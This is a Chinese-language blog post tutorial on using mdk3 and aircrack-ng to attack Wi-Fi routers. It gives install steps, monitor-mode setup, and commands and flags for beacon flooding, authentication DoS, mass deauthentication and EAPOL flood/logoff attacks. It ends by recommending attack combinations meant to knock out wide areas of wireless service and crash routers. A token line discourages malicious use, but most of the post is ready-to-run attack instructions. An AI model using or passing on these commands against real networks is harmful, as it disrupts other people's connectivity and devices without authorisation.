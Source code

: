 ```yaml
---
layout: default
title:  "使用mdk3+aircrack-ng攻击路由器"
date:   2016-08-28 11:47
categories: jekyll update
---
```

>mdk3是一款Linux下的终端网络攻击工具，需要配合强大的aircrack -ng使用  

[mdk3-Github](https://github.com/charlesxsh/mdk3-master)  
[mdk3-Github|LEXUGE's fork](https://github.com/LEXUGE/mdk3-master)  
[aircrack -ng](http://www.aircrack-ng.org/index.html)  

现在mdk3的官网已经关闭了，在Github上还有mdk3 v6的原版改进版，为防止项目被删除，我也fork了一份，供大家备用下载。  
mdk3的攻击过程中是不需要网络连接的，也就是在无网络的状态下攻击，希望大家不要恶意攻击他人，保持好自己的黑客道德。  
教程在Fedora Linux下通过测试  

1. ```iwconfig```  
使用该命令来检查是哪一个接口来支持无线连接的，如我的就是wlp2s0  

2. ```iw dev wlp2s0 scan```  
用这个命令来扫描周围的Wi-Fi信息，SSID为路由器的名称，BSS为路由器的MAC地址**（注意，截至目前，我们不需要安装任何软件）**  

3. ```dnf install aircrack-ng.x86_64```  
现在我们来安装mdk3和aircrack-ng(aircrack-ng可能名称会发生变动，具体请使用```$ dnf search aircrack-ng```搜索软件包)  

4. 
```
cd /mdk3-master
make
sudo make install
```
下载完mdk3并解压完毕后，即可进行编译安装，在```make```时会有gcc的编译警告，忽略即可，不必担心  

5.
```
cd /usr/local/sbin
./mdk3
```
- 如果正确安装就可以看到mdk3输出的帮助  

- 安装过程到此就完毕了  

现在，我们来介绍如何攻击  
```
su
airmon-ng start {你的接口，在第一步中可以找到}
cd /usr/local/sbin
```
第二条命令时，系统会自动关闭冲突进程，在最后会有监听端口，**注意，接下来的mon0就使用监听端口代替**  

第一种模式：  
beacon flood mode：  
     这个模式可以产生大量死亡SSID来充斥无线客户端的无线列表，从而扰乱无线使用者；我们甚至还可以自定义发送死亡SSID的BSSID和ESSID、加密方式（如wep/wpa2）等。  
详细命令如下：  
```
./mdk3 mon0 b 

      -n <ssid>        #自定义ESSID
      -f <filename>            #读取ESSID列表文件
      -v <filename>           #自定义ESSID和BSSID对应列表文件
      -d         #自定义为Ad-Hoc模式
      -w         #自定义为wep模式
      -g           #54Mbit模式
      -t            # WPA TKIP encryption
      -a           #WPA AES encryption
      -m          #读取数据库的mac地址
       -c <chan>                   #自定义信道
       -s <pps>                #发包速率
```

第二种模式：  
Authentication DoS：  
这是一种验证请求攻击模式：在这个模式里，软件自动模拟随机产生的mac向目标AP发起大量验证请求，可以导致AP忙于处理过多的请求而停止对正常连接客户端的响应；这个模式常见的使用是在reaver穷据路由PIN码，当遇到AP被“pin死”时，可以用这个模式来直接让AP停止正常响应，迫使AP主人重启路由！  
```
./mdk3 mon0 a
      -a <ap_mac>              #测试指定BSS
      -m              #使用有效数据库中的客户端mac地址
      -c          #对应 -a ，不检查是否测试成功
      -i  <ap_mac>           #对指定BSS进行智能攻击
      -s <pps>               #速率，默认50
```

第三种模式：  
Deauthentication/Disassociation Amok：  
强制解除验证解除连接！在这个模式下，软件会向周围所有可见AP发起循环攻击......可以造成一定范围内的无线网络瘫痪（当然有白名单，黑名单模式），直到手动停止攻击！  
```
mdk3 mon0 d
      -w <filename>             #白名单mac地址列表文件
      -b <filename>              #黑名单mac地址列表文件
      -s <pps>                        #速率，这个模式下默认无限制
      -c [chan,chan,chan,...]                  #信道，可以多填，如 2,4,5,1
```

第四种模式：  
802.1X test:
```
mdk3 mon0 x  
      0 - EAPOL Start packet flooding   #EAPOL格式的报文洪水攻击

            -n <ssid>               
            -t <bssid>        #目标客户端的mac地址               

            -w <WPA type>
               Set WPA type (1: WPA, 2: WPA2/RSN; default: WPA)
            -u <unicast cipher>
               Set unicast cipher type (1: TKIP, 2: CCMP; default: TKIP)
            -m <multicast cipher>
               Set multicast cipher type (1: TKIP, 2: CCMP; default: TKIP)
            -s <pps>      #速率，默认400               
      1 - EAPOL Logoff test       #注销认证攻击
            -t <bssid>        #目标客户端的mac地址             
            -c <bssid>         #目标ap的合法客户端mac               
            -s <pps>         #速率，默认400               
```

最后，建议这样攻击：  
第一种和第三种同时使用会造成大面积间歇性断网，第二种可以配合第四种进行攻击，会导致路由器死亡  
分别是  
```
./mdk3 mon0 b
./mdk3 mon0 d -s 120
./mdk3 mon0 a -a {你要攻击的路由器MAC(BSS)}
./mdk3 mon0 x 1 -c {客户端MAC(虚拟)} -t {路由器MAC(BSS)}
```

祝你成功！
